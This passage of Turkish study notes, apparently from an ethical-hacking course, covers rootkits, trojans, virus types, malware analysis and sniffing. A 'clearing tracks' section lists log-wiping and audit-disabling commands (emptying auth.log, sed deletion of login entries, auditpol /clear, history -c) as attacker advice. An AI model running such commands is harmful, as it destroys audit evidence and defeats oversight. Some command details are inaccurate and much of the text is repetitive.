- **Araçlar** 
- QuickStego 
- gifshuffle 
- SNOW 
- Steganography Studio 
- OpenStego 

**Rootkits** 

- Saldırgan tarafından sistem güvenliğini kapatmak için kullanılır. 
- Islemlerde ve dosyalarda görüntülenir. 
- Ayrıca gelecekte ki erişime izin verir. 
- **Örnek** 
- Horsepill - Linux çekirdeği için rootkit 
- Grayfish - Önyükleme kaydından enjekte edilen rootkit 
- Firefef - Çok bileşenli kötü amaçlı yazılım ailesi 
- Azazel 
- Avatar 
- Necurs 
- ZeroAccess 
- **Hipervizör Düzeyi - Ana işletim sistemi olarka bir VM yüklemek için bir ana sistemin öyükleme sırasını değiştiren rootkit.** 
- **Donanım** - Cihazlarda veya ürün yazılımında kötü amaçlı dosyaları gizleyin 
- **Önyükleyici düzeyi** - Bilgisayar tarafından kontrol edilebilecek bir yazılım ile değiştirin. 
- **Uygulama Düzeyi**- Geçerli uygulama dosyalarını truva atları ile değiştirmek için kullanın. 
- **Çekirdek Düzeyi**- Çekirdek kodunu Arka Kapı koduyla değiştirerek öyükleme sektörlerinde ve çekirdek düzeylerinde saldırı. (En tehlikelisi) 
- **Kütüphane Düzeyi**- Kendilerini gizlemek için sistem düzeyinde çağrılar kullanma 
- Rootkitleri anlamanın bir yolu, sistemde ki tüm dosyaları eşlemek ve sistemi temiz bir CD ile başlatıp ikisinin arasında ki farklara bakmak. 

**Izleri temizlemek** 

**Logları temizlemek, arkada iz bırakmamak için birincil önceliktir.** 

1. Loglar bulunur ve temizlenir.. 
2. Logları değiştirin. 

**Linux:** 

- Linux log geçmişlerini .bash\_history dosyasında tutar. 
- Logları kaldırmak ve silmeye zorlamak için rm -rf kullanın. Shred-zu sizin için logları silip belleğe yazacaktır. 
- Tüm sistemde ki komut geçmişlerini temizlemek için history -c veya oturum geçmişini temizlemek için history -w kullanabilirsiniz. 
- **Komut loglarını kapatmak** 
- export HISTSIZE=0 
- echo $HISTSIZE will return 0 limiting the number of commands which can be saved in $HISTFILE. 
- **clearev** - Günlük komutlarını temizlemek için MetaSploit içerisinde verilir. 

**En yaygın linux logları:** 

- /var/log/messages or /var/log/syslog/ 
- Genel mesajlardan ayrı sistemle alakalı bilgiler. 
- /var/log/auth.log or /var/log/secure 
- Hem başarılı, hem başarısız tüm oturum girişlerini doğrulama. 
- /var/log/boot.log 
- Önyükleme ve başlatma sırasında 
- /var/log/maillog or var/log/mail.log 
- Mail sunucuları ile ilgili günlükler tutulur. 
- **Linuxta logları temizleme veya düzenleme**: 
- Echo ile boş bir komut yollayarak içeriyi temizlemek mümkündür: 
- echo " " > /var/log/auth.log 
- Ayrıca bunu 'black hole dev/null' kullanarakta gerçekleştirebilirsiniz : 
- echo /dev/null > auth.log 
- Günlük dosyalarını kurcalamak , temizlemek için sed kullanabilirsiniz. 
- sed -i '/opened/d' /var/log/auth.log - bu komut linux üzerinde açılmış oturumları “opened” ile tanıyarak tespit eder. 

**Windows’ta:** 

- Komut satırı geçmişini **silebilirsiniz**: 
- **Cmd Prompt**: press [alt] + [F7] 
- **PowerShell**: type Clear-History 

Windows’ta **Uygulama**, **sistem** ve **Güvenlik loglarını temizlemeniz gerekir.**. 

- **Günlük dosyalarında ki kayıtları değiştirmek için Auditpol kullanılır.** 
- Ana Komutlar:: 
- auditpol /get /category:\* --> display all audit policies in detail if is enable *(Nesne erişimi , sistem, oturum açma/kapatma , ayrıcalık kullanımı vb.).* 
- auditpol /clear --> reset (disable) Tüm alt kategoriler için sistem denetim ilkesi 
- auditpol /remove --> Tüm kullanıcıların sistem denetim ilkesini kaldırır ve tüm sistem denetim ilkesi ayarlarını devre dışı bırakır. 

- **En son ve yeni kullanılan programları windows kayıt defterine kaydeden MRU.** 
- **Manuel olarakta temizlemek mümkündür.** 

**Sonuç** 

- Birinci seçenek bir günlük dosyasını bozmaktır. Bu en iyi tercih olur. 
- En iyi tercih geçiçi olmak ve arkanızda iz bırakmamak. 
- **Denetimi önceden devre dışı bırakabilirsiniz.** 
- Araçlar: 
- ccleaner --> Sistem temizliğini otomatikleştirin, çevrimiçi günlük temizleyin, geçmişi temizleyin. [Windows] 
- MRUblaster [Windows] 
- MSF tüm günlükleri uzaktan temizleyecek clearenv komutuna sahiptir.. [Kali Linux using MSF] 

3. **Virüsler** 

- **Virüs Nedir?** 

*Bir bilgisayara , sunucuya veya bilgisayar ağına zarar vermek için hazırlanmış yazılımlara virüs denir. Kodlar diğer terimlerin yanısıra , Bilgisayar virüsleri , solucanlar, truva atları, fidye yazılımları , casus yazılımlar, reklam yazılımları ve korkutucu yazılımlar olarak tanımlanabilir. Virüsler bilgisayar kullanıcısının çıkarına karşı kötü bir niyete sahiptir.* 

**Solucan virüslerinin tipleri** 🐛 

- **Nasıl çalışır?** 
1. Bulaşma - Hedef sisteme yerleştikten sonra kendini çoğaltmak için çalıştırabilir diğer yazılımlara bulaşır. 
2. Saldırı aşaması - Virüslü dosya bir şekilde kullanıcı tarafından tıklanır, çalıştırılır. 
- **Virus** - Hosttan hosta yayılacak şekilde tasarlanmıştır ve kendini çoğaltma yeteneğine sahiptir. Yardım olmadan çoğalamaz, yayılamazlar. Kodun başlaması için bir programa, bir dosyaya ihtiyaçları vardır. 
- **Macro Virus** - Bir makro dilinde yazılmıştır(VBA). Platform ayırt etmezler. 
- **Sıkıştırılmış Virüsler** - Kendini sistemde ki dosyalara ekleyen ve kendini izinlere göre sıkıştıran bir virüs türü. 
- **Gizli Virüs** - Yaptığı herşeyi gizler. Antivirüsler ve sistem isteklerini yakalar. Yanlış ve düzmece bilgiler verir. 
- **Polimorfik Virus** - Kendisinin çeşitli ama işlevsel kopyalarını üretir. Birbiri ile benzer olan kopyalar olmadığı için imzalara bakarak tespit edilmesi zorlaşır. 
- **Çok parçalı Virus** - Hem önyükleme, hemde dosyalara bulaştığı için genelde çoklu bulaşma olarak anımsanır. 
- **Kendini bozan (metamorfik) virus** - Her bulaştığı dosyada kendini tekrar yaratır. 
- **Diğer virüs tipleri:** 
- **Önyükleme tabanlı Virus** - Sistem virüsü olarak bilinir. Önyükleme kısmına kendi kodlarını enjekte ederek çalışır. 
- **Shell Virus** - Kendini uygulamanın kodundan önce ekler. 
- **Küme Virus** - Dizin tablosunu ve girişlerini değiştirir. Bu sayede hangi klasör açılırsa açılsın virüs çalışır. 
- **Şifrelenmiş Virus** - Antivirüsten kaçmak için kendini şifreler. 
- **Boşluk Virus** - Dosyanın gerçek boyutlarını arttırmadığı sürece ana bilgisayar üstüne yazar. 
- **Seyrek Bulaşıcı Virüs** - Sadece arasıra kendini gösterir. 
- **Dosya uzantısı virüsü** - Saldırgan avantajı için dosya uzantılarını değiştirerek bozar. 
- **Virüs Oluşturucular** 
- Sonic Bat 
- PoisonVirus Maker 
- Sam's Virus Generator 
- JPS Virus Maker 
- **Solucanlar**- İnsan müdahalesi olmadan diğer bilgisayarlara kendini gönderen ve bulaşan virüs türü. 
- Genellikle dosyalara bulaşmaz. Aktif bellekte bulunur. 
- Sık sık botnetlerde kullanılır. 
- **Hayalet göz solucanı** - Facebook gibi sitelerde mesajlaşmak için kullanılan bir hacking aracı. 
- **Mantık bombası** - Belirli bir olay gerçekleştiğinde, belirli bir saat tarih geldiği zaman çalışır. 
- **Rootkit** - Gizli tekniklerle sisteme yüklenmiş bir kötü araçlar kümesi. Tespiti çok zordur. 
- **Ransomware** - Dosyaların içeriğini şifreleyen ve fidye talep eden bir virüs. Mail yolu ile saldırılabilir. 
- **WannaCry** - 24 saat içinde 230.000 kişiye bulaşan en ünlü ransomware. SMB güvenlik zaafiyetinden faydalanıyor. 

**Diğer Örnekler:** 

- CryptoLocker 
- CryptoDefense 
- police-themed 
- **Truva atı** - Kullanıcı bilgisi dışında arkaplanda çalışan, komut yürütme amacı olan başka bir program kılığına giren virüs. 
- **RAT - Uzaktan erişim truva atı** - Sistemler üzerinde çalışan ve davetsiz misafirlerin uzaktan erişmesini sağlayan virüsler. 
- **Bağışaklayıcı - Bir dosyaya veya uygulamaya virüsün zaten bulaştığını göstermek için kod ekleyen virüs.** 
- **Davranış engelleme - Şüpheli kodun işletim sistemi üzerinde çalışmamasını sağlayarak ve şüpheli etkinliklerini arayarak etkileşimlerini izlemek.** 

`  `**️** i  **- Virüslerin yayılması için yardıma ihtiyacı vardır. Solucanlar kendi halleder.** 

- **“** 
- Oltalama 
- Kötü Amaçlı Reklamcılık 
- Meşru siteleri tehlikeye atmak 
- Drive’den indirmeler 
- Spam  
- **Virüs - Bilgilendirme olmaksızın bir bilgisayar sistemine giren zarar veren veya gizlice erişen dosyalar.** 
- Çoğu kullanıcı, bilgisi olsun ya da olmasın internetten indirir. 
- **Açık kanallar - Programlar tarafından kullanılan yasal işletim kanalları** 
- **Gizli kanallar  - Verileri istenmeyen şekilde taşımak için kullanılan kanallar** 
- **Sarmalayıcılar- Yürütülebilir bir dosyayı normal bir dosyaya bağlayan programlar** 

**Virüslerin temel bileşenleri** 

1. **Şifreleyici - Virüsler tanınmamak için içerik şifrelemeleri ve kod manipülasyonları kullanır. Analiz sırasında da bu avantaj sağlar.** 
2. **İndirici**- Virüs indirtmek için kullanılır.. 
3. **Düşürücü** - Hedef sisteme virüs yüklemek için kullanılır.. 
4. **Sömürü** - Belirli bir güvenlik açığını sömürmek için kullanılır. 
5. **Enjektör**- Hedef sistemde ki savunmasız süreçleri istismara maruz bırakır. 
6. **Gizleyici** - Kötü amaçlı yazılımın gerçek amacını gizlemek için kullanılır. 
7. **Paketleyici** - Tüm virüsleri tek bir exe dosyasında bir araya getirmek için kullanılır. 
8. **Yük** - Hedef makineyi ele geçirmek için kullanılır. 
9. **Zararlı kod** - Kötü amaçlı yazılımın yeteneklerini tanımlamak için kullanılır.. 

**Sömürü araçları** - İstismarlara yardımcı olan uygulamalar 

- Infinity 
- Bleeding Life 
- Crimepack 
- Blackhole Exploit Kit 

Trojans (Truva Atları) 

- Trojan yazılımı, göründüğünde kullanıcı için yararlı bir işlevi gerçekleştirirken aslında gizli, kötü amaçlı etkinlikler gerçekleştiren bir tür kötü amaçlı yazılımdır. Trojanlar genellikle yasal yazılım gibi gizlenir veya e-posta veya diğer iletişim formları aracılığıyla dağıtılır. Bilgisayar sistemine yetkisiz erişim kazanmak, hassas bilgi çalmak veya kullanıcının bilgisi veya onayı olmadan diğer zararlı etkinlikleri gerçekleştirmek için kullanılabilir. Yazılım indirirken veya bilinmeyen kaynaklardan e-postalar açarken dikkatli olmak önemlidir, çünkü bu Trojanları dağıtmak için yaygın bir yöntemdir. 
- Hackerlar için, Trojan bir bilgisayar sistemi veya ağa yetkisiz erişim kazanmak ve bu erişimi zaman içinde sürdürmek için kullanabilecekleri bir araçtır. Hackerlar genellikle bir sisteme "arka kapı" açmak için Trojanları kullanır, bu da onların daha sonra geri dönüp ek kötü amaçlı etkinlikler gerçekleştirme imkanı verir. Trojanlar hassas bilgi çalma, sistem işlemlerini bozma veya diğer zararlı etkinlikleri gerçekleştirme gibi işlevleri yerine getirebilir. Bir hacker hedef sisteme başarıyla bir Trojan yüklerse, genellikle bunu uzaktan kontrol edebilir ve kullanıcının bilgisi veya onayı olmadan çeşitli kötü amaçlı etkinlikler gerçekleştirme imkanına sahip olabilir. Kullanıcıların Trojanlar ve diğer malware türlerinden korunmak için dikkatli olmaları ve gerekli önlemleri almaları önemlidir. 
- Arka kapı sayesinde hackerlar, daha sonra geri dönüp ek kötü amaçlı etkinlikler gerçekleştirme imkanına sahip olabilirler. Özetle, Trojanlar bir teslim yöntemidir, arka kapı ise açık erişim sağlar. 
- Trojanlar genellikle sosyal mühendislik yöntemleriyle yayılır. Sosyal mühendislik, insanların davranışlarını, düşüncelerini ve inançlarını etkilemeyi hedefleyen bir taktiktir. Sosyal mühendislik yöntemleri, çeşitli yöntemler kullanarak insanların güvenini kazanmayı, onları ikna etmeyi veya yönlendirmeyi amaçlar. Örneğin, bir hacker bir Trojanı yaymak isterse, kullanıcıların bilgisayarlarına indirmeye veya açmaya ikna etmeyi hedefleyebilir. Bu amaçla, hackerlar genellikle kötü amaçlı yazılımı gizlenmiş veya yasal yazılım gibi gösterirler ve insanların düşüncelerini ve davranışlarını etkilemek için yalancı e-posta, pop-up mesajlar veya diğer yöntemler kullanırlar. Bu yüzden, sosyal mühendislik yöntemleri kullanılarak yayılmış Trojanlar, insanların bilinçli veya bilinçsiz olarak bu yazılımları indirmeye veya açmaya yönlendirilmesine neden olur. 
- Truva Atı Virüslerinin Türleri 
- Defacement trojan 
- Proxy server trojan 
- Botnet trojan 
- Chewbacca 
- Skynet 
- Remote access trojans 
- RAT 
- MoSucker 
- Optix Pro 
- Blackhole 
- E-banking trojans 
- Zeus 
- Spyveye 
- IoT Trojans 
- Security Software Disable Trojans 
- Command Shell Trojan - Komut satırı erişimiyle bağlantı kurmak için bir arka kapı sağlar. Bu tür Trojanlar, bilgisayar sistemine veya ağa yetkisiz erişim kazanmış olan bir hacker tarafından kullanılabilir. Komut Shell Trojanı sayesinde, hackerlar sisteme komut satırı aracılığıyla uzaktan erişim kazanabilirler ve sistemi kontrol edebilirler. Bu Trojanlar, genellikle hackerlar tarafından sistemleri kötü amaçlı etkinlikler için kontrol etmek veya hassas bilgi çalmak gibi amaçlarla kullanılır. Kullanıcıların bu tür Trojanların sistemlerine yüklenmesini önlemek için dikkatli olmaları ve güvenlik önlemlerini almaları önemlidir. 
- Netcat 
- Covert Channel Tunneling Trojan (CCTT) - bir Remote Access Trojan (RAT Trojanı) türüdür ve önceden onaylanmış veri akışlarında veri transferi kanalları oluşturur. CCTT, bir bilgisayar sistemine veya ağa yetkisiz erişim kazanmış olan bir hacker tarafından kullanılabilir. Bu Trojan, sistem içinde gizli veri transferi kanalları oluşturarak, hackerların sisteme uzaktan erişim kazanmasına ve sistemi kontrol etmesine izin verir. CCTT, genellikle hassas bilgi çalmak veya sistemleri kötü amaçlı etkinlikler için kontrol etmek gibi amaçlarla kullanılır. Kullanıcıların bu tür Trojanların sistemlerine yüklenmesini önlemek için dikkatli olmaları ve güvenlik önlemlerini almaları önemlidir. 

Enfecte Etme Süreci / Infection Process 

1. Trojan yapı kitini kullanarak Trojan virüsünü oluşturma. 
2. Bir damlalık oluşturun. 
- Sisteme kötü amaçlı yazılım yüklemek için kullanılır. 
3. Bir sarıcı oluşturun. 
- Yürütülebilir bir dosyayı masum bir dosyaya bağlamanıza izin veren programlardır. 
4. Trojan yayımı başlatılır. 
5. Damlalık yürütülür. 

Trojan Virüslerinin Port Numaraları : 

 

 

Trojan Virüslerine Karşı Alınabilecek Tedbirler 

1. Tanımadığınız ya da şüpheli olarak gördüğünüz herhangi bir mailin içeriğindeki linke ya da ek dosyalarını açmaya çalışmayın. 
2. Kullanılmayan tüm portlarınızı kapatın. 
3. Network trafiğinizi sürekli olarak monitor edin. 
4. Bilmediğiniz ya da güvenemediğiniz kaynaklardan dosya ve yazılım indirmeyin. 
5. Bilgisayarınızda antivirus yazılımı yok ise yükleyin, var ise sürekli güncelleyin. 
6. Taşınabilir belleklerinizi mutlaka içini açmadan önce antivirus yazılımı ile tarayın. 
7. Tüm harici kaynaklı yazılımların dosya bütünlüğünü doğrulayın. 
8. Denetimi etkinleştirin. 
9. Firewall kurallarınızı sürekli güncelleyin ve denetleyin. 
10. İzinsiz Giriş Tespiti (IDS) kullanın. 

Teknikler 

- Netstat -an – Tüm açık portları sayısal sırayla gösterir. 
- Netstat -b – Tüm aktif bağlantıları ve bunları kullanan işlemleri görüntüler. 
- Process Explorer  - Microsoft ürünü olan bu uygulama ile arka planda çalışan tüm işlemleri görüntüleyebilirsiniz. 
- Registry Monitoring Tools 
- SysAnalyzer 
- Tiny Watcher 
- Active Registry Monitor 
- Regshot 
- Msconfig – Windows uygulaması üzerinde ki tüm programları gösterir dilerseniz buradan system başlangıcında çalışmasını istediğiniz ya da istemediğiniz yazılımları seçebilirsiniz. 
- Tripwire – Truva atlarına karşı korumada HIDS görevi görebilen bütünlük doğrulama işlemi sağlar. 
- SIGVERIF – Windows işletim sistemi içerisinde ki tüm yazılımların dosya bütünlüğünü doğrulaması için kullanılır. 
- Log dosyasını şu dosya dizininde bulabilirsiniz : c:\windows\system32\sigverif.txt 

Kötü Amaçlı Yazılım Analizi (Malware Analysis) 

Malware analizi, bir virüs, solucan, Trojan atı, rootkit veya arka kapı gibi verilen bir malware örneğinin işlevselliğini, kökenini ve olası etkisini belirlemeyi hedefleyen bir çalışmadır veya süreçtir. Malware analizi, günümüzde bilgisayar güvenliği alanında önemli bir rol oynayan bir araştırma alanıdır. Bu çalışma, malware örneklerinin ne tür etkinlikler gerçekleştirdiğini, nasıl yayıldığını ve ne tür zararlar oluşturabileceğini belirlemek amacıyla yapılır. Bu bilgiler, sistemleri malware'lerden korumanın ve etkilerini azaltmanın yollarını belirlemek için kullanılır. 

Kötü Amaçlı Yazılım Analizi Türleri 

1. Statik Kod Analizi - Bir binary dosyayı çalıştırmadan analiz edilebilen tekil elemanlara bölme işlemidir. Statik kod analizi, bir malware örneğinin işlevselliğini ve olası etkisini belirlemek için kullanılır. Bu yöntem, malware örneğinin kodlarını inceleyerek, ne tür etkinlikler gerçekleştirdiğini, nasıl yayıldığını ve ne tür zararlar oluşturabileceğini belirlemek amacıyla kullanılır. Statik kod analizi, malware örneğinin çalıştırılmadan önce incelenmesini sağlar ve bu sayede sistemlerin zarar görmesini önleyebilir. 
- Dosya Parmak İzi (File Fingerprinting) 
- Bilinen kötü amaçlı yazılım profilleriyle eşleşip eşleşmediklerini görmek için öğelerin yerel ve çevrimiçi taranması. 
- Dize Arama (String Searching) 
- Kullanılan paketleyicileri ya da gizleyicileri tanımlama. 
- Portable olarak çalıştırılan ya da çalıştırılacak olan yazılımların bilgilerini tanımlama 
- Bağımlılıkları belirleme. 
2. Dinamik Davranış Analizi (Dynamic – Behavioral Analysis) 
- Sistem temeli 
- Ana bilgisayarın bütünlüğünü izleme 
- Sökme Araçları | Hata Ayıklama | Tersine Mühendislik 
- IDA Pro 
- OllyDdg 
- Ghidra by NSA 
- Sheepdip - Çıkarılabilir depolama ortamlarındaki dosyaların virüslerden arındırılması için kullanılan özel bir bilgisayardır. Sheepdip bilgisayarı, çıkarılabilir depolama ortamlarındaki dosyaları virüslerden arındırmak için kullanılır ve bu dosyaların diğer bilgisayarlarla kullanılmaya izin verilmesine yardımcı olur. Sheepdip bilgisayarı, bir malware örneğini çalıştırarak ne tür etkinlikler gerçekleştirdiğini belirlemek amacıyla kullanılabilir. Bu sayede, çıkarılabilir depolama ortamlarındaki dosyaların virüslerden arındırılmış olması sağlanır ve bu dosyaların diğer bilgisayarlarla güvenli bir şekilde kullanılması sağlanır. 

Adımlar 

1. İyi bir test ortamına sahip olduğunuzdan emin olun. 
- Önerilen yöntem, bir sanal makine (VM) kullanılarak test yapılması ve bu sanal makine ile ana makine arasında yalnızca ev sahipliği modunda bir ağ kartı (NIC) kullanılmasıdır. Bu sayede, test sırasında malware örneğinin diğer sistemlere veya ağlara etkisi azaltılmış olur. Ayrıca, sanal makine üzerinde açık paylaşım olmaması da güvenlik önlemlerinin alınmasına yardımcı olur. 
2. İzole bir VM'de malware'i statik bir durumda analiz edin 
- Araçlar - binText ve UPX, binary incelemekte yardımcı olur. Bu cümle, malware örneklerinin analiz edilirken kullanılabilecek yöntemleri anlatmaktadır. Önerilen yöntem, malware örneğinin statik bir durumda incelenmesidir. Bu amaçla, izole bir sanal makine (VM) kullanılır ve bu sanal makine üzerinde çeşitli araçlar kullanılır. Örneğin, binText ve UPX gibi araçlar, malware örneğinin binary kodlarını incelemek için yardımcı olabilir. Bu yöntemler, malware örneğinin işlevselliğini ve olası etkisini belirlemek için kullanılabilir. 
3. Malware’ I çalıştırın ve arka planda yaptığı işlemleri inceleyin. 
- Process Monitor gibi araçları kullanarak arka planda neler yaptığını ve sistem üzerinde ne gibi değişiklikler yaptığını görebilirsiniz. 
- NetResident, TCPview veya hatta Wireshark gibi araçları kullanarak ağ etkinliğini inceleyin. Bu sayede, malware örneğinin ağ üzerinde ne tür etkinlikler gerçekleştirdiğini ve ağ üzerinde ne tür değişiklikler yaptığını belirlemek için kullanılabilir. Bu bilgiler, malware örneğinin işlevselliğini ve olası etkisini belirlemek için kullanılabilir. 
4. Buraya kadar yapmış olduğumuz testin sonuçlarını artık görebiliriz. Sisteminiz üzerinde hangi dosyaları sildi, hangi dosyaları ekledi ya da hangi dosyalarınız üzerinde değişiklik yaptığını analiz edebilirsiniz. 
- Araçlar -  IDA Pro, VirusTotal, Anubis, Threat Analyzer 
- Kötü Amaçlı Yazılımları Önleme / Preventing Malware 
- Sisteminizde neler olup bittiğini bildiğinizden emin olun. 
- Sisteminizde bir antivirus bulundurun ve virus imza veritabanının güncelliğinden her zaman emin olun. 
- Airgrapped - Bir bilgisayar veya ağın internet veya diğer ağlardan tamamen ayrı olarak çalıştığı anlamına kullanılır. Airgapped sistemler, güvenlik önlemleri açısından önemlidir çünkü bu sistemler internet veya diğer ağlardan ayrı olduğu için, dışarıdan gelen tehditlerden daha az etkilenirler. Ayrıca, airgapped sistemlerin içinde bulunan veriler daha güvende olur çünkü bu veriler dışarıdan erişilemez. 

Rootkits 

- Saldırgan tarafından sistem güvenliğini gizlemek için devreye alınan yazılımdır. 
- Kendini işlemlerden ve dosyalardan gizleyerek çalışır. 
- Gelecek bir tarihde çalışabilecek şekilde izinleri verilir. 
- Örnekler : 
- Horsepill – initrd içinde ki Linux kernel rootkit’ i 
- Grayfish – Boot kayıtlarının altına inject edilebilen Windows rootkit’ i 
- Firefef – Çok bileşenli kötü amaçlı yazılım ailesi 
- Azazel 
- Avatar 
- Necurs 
- ZeroAccess 
- Hypervisor level - Bir rootkit türü olan hypervisor seviyesi rootkitlerini anlatmaktadır. Hypervisor seviyesi rootkitleri, ana sistemde bulunan bir hypervisor kullanılarak çalışır. Bu rootkitler, ana sistemde bulunan bir sanal makine (VM) yükler ve bu sanal makineyi ana işletim sistemi olarak kullanır. Bu sayede, rootkitler sisteme yüklenir ve sistem üzerinde ne tür etkinlikler gerçekleştirirler. Hypervisor seviyesi rootkitleri, güvenlik önlemleri açısından önemli bir risk oluştururlar çünkü bu rootkitler ana sistemde bulunan hypervisor kullanılarak çalışır ve bu sayede sistem üzerinde ne tür etkinlikler gerçekleştirildiği önceden belirlenemez. 
- Hardware -  Malware bir cihazda veya bir firmware'de saklanabilir. Bu sayede, malware sisteme yüklenir ve sistem üzerinde ne tür etkinlikler gerçekleştirir. Donanım üzerinde saklanan malware, güvenlik önlemleri açısından önemli bir risk oluşturur çünkü bu malware sisteme yüklenir ve sistem üzerinde ne tür etkinlikler gerçekleştirildiği önceden belirlenemez. 
- Boot loader level - Boot yükleyici seviyesi rootkitleri, sisteme yüklenir ve sistem üzerinde ne tür etkinlikler gerçekleştirirler. Bu rootkitler, boot yükleyicisini değiştirir ve bu sayede hacke tarafından kontrol edilen bir boot yükleyici kullanılır. Bu sayede, rootkitler sistem üzerinde ne tür etkinlikler gerçekleştirirler. Boot yükleyici seviyesi rootkitleri, güvenlik önlemleri açısından önemli bir risk oluştururlar çünkü bu rootkitler sisteme yüklenir ve sistem üzerinde ne tür etkinlikler gerçekleştirildiği önceden belirlenemez. 
- Application level – Uygulama seviyesi rootkitleri, sisteme yüklenir ve sistem üzerinde ne tür etkinlikler gerçekleştirirler. Bu rootkitler, geçerli uygulama dosyalarını Trojanlar ile değiştirir. Bu sayede, rootkitler sistem üzerinde ne tür etkinlikler gerçekleştirirler. Uygulama seviyesi rootkitleri, güvenlik önlemleri açısından önemli bir risk oluştururlar çünkü bu rootkitler sisteme yüklenir ve sistem üzerinde ne tür etkinlikler gerçekleştirildiği önceden belirlenemez. 
- Kernel level - Çekirdek seviyesi rootkitleri, sisteme yüklenir ve sistem üzerinde ne tür etkinlikler gerçekleştirirler. Bu rootkitler, boot bölümlerini ve çekirdek seviyesini saldırıya uğratır ve çekirdek kodunu arka kapı kodu ile değiştirir. Bu sayede, rootkitler sistem üzerinde ne tür etkinlikler gerçekleştirirler. Çekirdek seviyesi rootkitleri, güvenlik önlemleri açısından en tehlikelisi olarak kabul edilir çünkü bu rootkitler sisteme yüklenir ve sistem üzerinde ne tür etkinlikler gerçekleştirildiği önceden belirlenemez. 
- Library level - Kütüphane seviyesi rootkitleri, sisteme yüklenir ve sistem üzerinde ne tür etkinlikler gerçekleştirirler. Bu rootkitler, sistem seviyesi çağrıları kullanarak kendilerini gizler. Bu sayede, rootkitler sistem üzerinde ne tür etkinlikler gerçekleştirirler. Kütüphane seviyesi rootkitleri, güvenlik önlemleri açısından önemli bir risk oluştururlar çünkü bu rootkitler sisteme yüklenir ve sistem üzerinde ne tür etkinlikler gerçekleştirildiği önceden belirlenemez. 
- Rootkitlerin tespit edilmesine yönelik bir yöntemi anlatmaktadır. Önerilen yöntem, bir sistemdeki tüm dosyaları haritalamak ve daha sonra sistemi temiz bir CD sürümünden başlatmaktır. Bu sayede, iki dosya sistemi karşılaştırılır ve bu sayede rootkitlerin varlığı tespit edilebilir. Bu yöntem, rootkitlerin sisteme yüklenmesini ve sistem üzerinde ne tür etkinlikler gerçekleştirildiğini belirlemek için kullanılabilir. 

Sniffing (Koklama) 

Sniffing, bir veri ağı üzerinden geçen tüm paketleri izleyip yakalamaya yönelik bir işlemdir. Sniffing araçları kullanılarak yapılır. Bu, "telefon hattını dinlemek" şeklinde düşünülebilir ve konuşmalar hakkında bilgi edinilebilir. Bu, bilgisayar ağları için de "telefon dinleme" olarak adlandırılır. Sniffing, bir veri ağı üzerinden geçen tüm paketleri izleyip yakalamaya yönelik bir işlemdir. Bu işlem, sniffing araçları kullanılarak yapılır. Bu sayede, bir veri ağı üzerinde ne tür etkinlikler gerçekleştirildiği belirlenir. Sniffing, güvenlik önlemleri açısından önemli bir risk oluşturur çünkü bu işlem sayesinde, bir veri ağı üzerinde ne tür etkinlikler gerçekleştirildiği ve ne tür verilerin paylaşılacağı bilinmemektedir. 

Active and Passive Sniffing 

- Passive Sniffing - Pasif sniffing, ağ trafiğini etkileşimsiz olarak izlemek anlamına gelir. Bu işlem yalnızca aynı çarpışma alanı için çalışır. Çarpışma alanı, bir ağ üzerinde aynı anda iletişim kurmaya çalışan cihazların bulunduğu alandır. Pasif sniffing, ağ trafiğini izlemek için kullanılabilir ve bu sayede ağ üzerinde ne tür etkinlikler gerçekleştirildiği belirlenir. Pasif sniffing, güvenlik önlemleri açısından önemli bir risk oluşturur çünkü bu işlem sayesinde, ağ üzerinde ne tür etkinlikler gerçekleştirildiği ve ne tür verilerin paylaşıldığı belirlenir. 
- Active sniffing - Aktif sniffing, bir anahtarlayıcıyı sizin makineniz için tasarlanmamış olsa bile trafik gönderme yöntemleri kullanır. Bu işlem, ağ trafiğini izlemek için kullanılabilir ve bu sayede ağ üzerinde ne tür etkinlikler gerçekleştirildiği belirlenir. Aktif sniffing, güvenlik önlemleri açısından önemli bir risk oluşturur çünkü bu işlem sayesinde, ağ üzerinde ne tür etkinlikler gerçekleştirildiği ve ne tür verilerin paylaşıldığı belirlenir. 
- Span port - Span port, anahtarlayıcının diğer portlardan tüm çerçevelerin bir kopyasını belirli bir porta göndermesine yönelik bir anahtarlayıcı yapılandırmasıdır. Bu özellik, ağ üzerinde ne tür etkinlikler gerçekleştirildiğini belirlemek için kullanılabilir. Span port özelliği, güvenlik önlemleri açısından önemli bir risk oluşturur çünkü bu özellik sayesinde, ağ üzerinde ne tür etkinlikler gerçekleştirildiği ve ne tür verilerin paylaşıldığı belirlenir. 
- Her network switch’ inde bunu yapma yeteneği yoktur. 
- Modern network switchler bağlantı noktalarının veri göndermesine izin vermez. Sadece dinlenebilir. 
- Network tap - Switch üzerinde bağlı cihaza tüm trafiği görme imkanı veren özel bir porttur. Bu özellik, ağ üzerinde ne tür etkinlikler gerçekleştirildiğini belirlemek için kullanılabilir. Ağ tıklatma özelliği, güvenlik önlemleri açısından önemli bir risk oluşturur çünkü bu özellik sayesinde, ağ üzerinde ne tür etkinlikler gerçekleştirildiği ve ne tür verilerin paylaşıldığı belirlenir. 

 

- Port Mirroring - Port yansıtma, span port için kullanılan bir terimdir. Bu özellik, ağ üzerinde ne tür etkinlikler gerçekleştirildiğini belirlemek için kullanılabilir. Port yansıtma özelliği, güvenlik önlemleri açısından önemli bir risk oluşturur çünkü bu özellik sayesinde, ağ üzerinde ne tür etkinlikler gerçekleştirildiği ve ne tür verilerin paylaşıldığı belirlenir. 

Temel Bilgiler 

- Bu işlem genellikle ağ güvenliği araştırmalarında veya ağ trafiği analizi gibi uygulamalarda kullanılır. Sniffing, ağ üzerinde geçen verileri dinleyerek veya izleyerek, ağ üzerinde bulunan bilgi ve verileri tespit etmek amacıyla yapılır. 
- MAC adresi ağ cihazları arasında veri iletişimini sağlamak için atanmış bir fiziksel adres olarak ifade edilebilir. MAC adresi, veri bağlantı katmanında bir cihazın ağ üzerinde tanımlanmasını ve bu cihazın ağ üzerinde iletişim kurmasını sağlar. Bu adres, cihazın üreticisi tarafından üretilir ve cihazın NIC'ine yazılır veya yerleştirilir. MAC adresi, ağ cihazları arasındaki iletişim sırasında kullanılır ve ağ üzerindeki trafikte bulunan paketlerin doğru hedefe ulaştırılmasını sağlar. 
- 48 bit uzunluğundadır. 
- İki nokta üst üste ile ayrılmış 12 onaltılık karakter olarak görüntülenir. 
- Adresin ilk yarısı, organizasyonel olarak benzersiz tanımlayıcıdır - üreticiyi tanımlar. 
- İkinci yarı, bir alt ağdaki hiçbir kartın aynı adrese sahip olmamasını sağlar. 
- NIC'ler normalde yalnızca kendisi için amaçlanan sinyalleri işler 
